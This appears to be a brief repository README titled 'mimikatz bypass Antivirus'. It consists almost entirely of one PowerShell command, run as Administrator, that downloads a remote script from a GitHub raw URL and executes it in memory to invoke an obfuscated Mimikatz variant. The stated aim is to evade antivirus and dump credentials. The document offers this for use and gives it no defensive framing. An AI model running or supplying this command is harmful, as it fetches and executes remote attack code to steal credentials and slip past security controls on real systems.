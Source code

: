 # mimikatz bypass Antivirus

Powershell as Administrator

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz
